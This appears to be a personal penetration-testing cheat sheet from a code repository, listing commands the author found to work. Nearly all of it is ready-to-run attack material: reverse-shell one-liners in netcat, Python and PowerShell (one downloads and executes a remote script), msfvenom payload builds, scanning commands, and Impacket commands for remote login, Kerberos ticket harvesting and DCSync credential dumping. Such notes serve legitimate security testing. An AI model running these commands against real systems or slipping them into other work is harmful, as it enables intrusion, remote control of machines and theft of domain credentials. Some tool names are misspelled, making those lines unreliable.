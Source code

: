 # Pen-Test Cheat Sheet
This repository contains this markdown file which includes common commands and tools used in a penetration test  
This will be a list of commands that has personally worked for me so I do not have to go back and find what and what doesn't work  
Commands will be seperated into categories  

## Reverse Shells

### Netcat Traditional
```
nc -e /bin/sh 10.10.10.10 4444
nc -e /bin/bash 10.10.10.10 4444
nc -c bash 10.10.10.10 4444
```
### Netcat OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### Windows
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
Use this command in conjunction with nishang shell  
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### PHP Upload
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php  

### msfvenom commands

#### Windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
#### Linux
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```
## Spawn TTY Shell
`rlwrap` enhances the shell, allowing you to clear the screen with `CTRL + L`
```
rlwrap nc 10.10.10.10 4444
```
## nmap
```
nmap -sC -sV -oA nmap/name_of_file 10.10.10.10
```
## Gobuster
```
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list.2.3-medium.txt -t 50
```
## Impacket

https://github.com/SecureAuthCorp/impacket

### psexec
Used to remotely login to victim's computer
```
psexec.py domain/user:password@10.10.10.10
```
### GetUserSPNs
Script to find and fetch Service Principle Names assosicated with normal user accounts   
Hash retrieved can be cracked using John or Hashcat  
```
GetUserSPNs.py domain/user:password -dc-ip 10.10.10.10 -request
```
### secretdumps

Performs a DCSync Attack  
DCSync Attacks pretends to be a domain controller  
Targetted account must have DCSync Privileges which can be obtain if user has Exchange Windows Permission  

```
secretdumps.py domain/user:password@10.10.10.10
```

### smbclient

A generic SMB client
```
smbclient.py domain/user:password@10.10.10.10
```

### lookupsid

Tool to bruteforce Windows SIDs which will attempt to identify remote users and groups 

```
lookipsid.py domain/user:password@10.10.10.10
```
